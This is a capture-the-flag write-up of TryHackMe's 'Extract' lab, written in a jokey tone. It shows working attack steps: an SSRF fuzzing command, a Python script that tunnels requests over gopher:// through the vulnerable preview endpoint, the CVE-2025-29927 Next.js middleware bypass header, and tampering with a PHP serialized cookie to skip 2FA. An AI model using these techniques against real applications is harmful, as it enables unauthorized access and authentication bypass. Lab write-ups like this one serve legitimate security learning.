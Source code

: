 **Executive Summary: **  
The Extract room is TryHackMe's premium hard-level challenge that transforms you from a casual web surfer into a digital archaeologist, extracting secrets from digital libraries like you're Indiana Jones with a keyboard. This 90-minute rollercoaster involves Server-Side Request Forgery (SSRF) vulnerabilities, Next.js middleware authentication bypass, gopher protocol exploitation, and cookie manipulation that would make a master chef jealous.

Think of it as a cybersecurity escape room where the escape is finding flags, and the room is the entire internet infrastructure. Spoiler alert: There's no physical escape, just existential dread and the sweet satisfaction of pwning badly configured web applications.

---

🔍 **Initial Reconnaissance: Knocking on Digital Doors**

### The Nmap Symphony in B-Minor (for "Barely Secure")

Our journey begins with the classic nmap scan, that beautiful symphony of port discovery that makes every pentester's heart sing:

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.212.133
```

**Results:**

* **Port 22 (SSH):** OpenSSH 9.6p1 - The bouncer at the club who actually does his job
    
* **Port 80 (HTTP):** Apache 2.4.58 - The friendly doorman who lets everyone in
    

As the great philosopher once said: "There are 10 types of people in this world—those who understand binary and those who don't". Well, there are also two types of ports in this room: the locked one and the "please hack me" one.

### Web Application Discovery: Welcome to TryBookMe

Visiting `http://10.10.212.133/` reveals TryBookMe - Online Library, which sounds about as secure as leaving your diary open in a coffee shop. The application allows users to preview documents through an iframe.

The smoking gun appears in the page source: `/preview.php` endpoint with a **url** parameter.

---

🚀 **The SSRF Adventure: Server-Side Request Forgery Gone Wild**

### Testing the Waters (Or: How I Learned to Stop Trusting User Input)

**Basic Test:**

```bash
echo "test" > test.txt
python3 -m http.server 80
```

Request:

```plaintext
http://10.10.212.133/preview.php?url=http://10.4.4.28/test.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756827129079/45ce7dc4-cf05-49dc-bc74-8e92eb5c437b.png align="center")

✅ Success! The server dutifully fetches our content.

### Protocol Testing: The Good, The Bad, and The Gopher

```text
file://   → Blocked
http://   → Works
gopher:// → Works
```

Testing with:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756827161697/8199e8e2-58bf-40ba-bb92-c38f98e119c6.png align="center")

```plaintext
gopher://10.4.4.28:4444/_test
```

---

### Internal Service Discovery: Port Knocking for Fun and Profit

```bash
ffuf -u 'http://10.10.212.133/preview.php?url=http://127.0.0.1:FUZZ/'      -w <(seq 1 65535) -mc all -t 100 -fs 0
```

Discovery: Port **10000** is listening internally.  
Requesting `http://127.0.0.1:10000/` reveals a Next.js application.

---

🎭 **The Proxy Comedy: Gopher-Powered Shenanigans**

```python
#!/usr/bin/env python3
import socket, requests, urllib.parse, threading

LHOST = '127.0.0.1'
LPORT = 5000
TARGET_HOST = "10.10.212.133"
HOST_TO_PROXY = "127.0.0.1"
PORT_TO_PROXY = 10000

def handle_client(conn, addr):
    with conn:
        data = conn.recv(65536)
        double_encoded_data = urllib.parse.quote(urllib.parse.quote(data))
        target_url = f"http://{TARGET_HOST}/preview.php?url=gopher://{HOST_TO_PROXY}:{PORT_TO_PROXY}/_{double_encoded_data}"
        resp = requests.get(target_url)
        conn.sendall(resp.content)

def start_server():
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((LHOST, LPORT))
    server.listen(5)
    print(f"[*] Listening on {LHOST}:{LPORT}")
    while True:
        client_socket, addr = server.accept()
        client_handler = threading.Thread(target=handle_client, args=(client_socket, addr))
        client_handler.start()

if __name__ == "__main__":
    start_server()
```

---

🔐 **Next.js Authentication Bypass: CVE-2025-29927 Strikes Back**

Bypassing with the following header:

```plaintext
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756827194947/71ebdc44-2099-417a-bc01-ba973d4c5337.png align="center")

Now accessing `/customapi` reveals:

* **Flag 1 🎉**
    
* **Credentials:** `librarian:L[REDACTED]!`
    

---

🍪 **Cookie Manipulation: The Sweet Science of Authentication Bypass**

### IP Restriction Bypass

Use the SSRF proxy targeting port 80 to access `/management/`.

### 2FA Bypass

After logging in, `/management/2fa.php` sets this cookie:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756827389476/936e357d-fe8a-4cdd-bdba-436484872d94.png align="center")

```plaintext
O:9:"AuthToken":1:{s:9:"validated";b:0;}
```

Change `b:0;` → `b:1;`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756827284011/0920d14d-c6a6-4825-838d-20412b523485.png align="center")

✅ This bypasses 2FA and reveals **Flag 2 🎉**

---

🏆 **Conclusion**  
We successfully exploited:

* SSRF in `/preview.php`
    
* Gopher protocol for internal access
    
* Next.js middleware bypass (CVE-2025-29927)
    
* Cookie manipulation for 2FA bypass
    

**Flags Captured: 2/2 🎯**
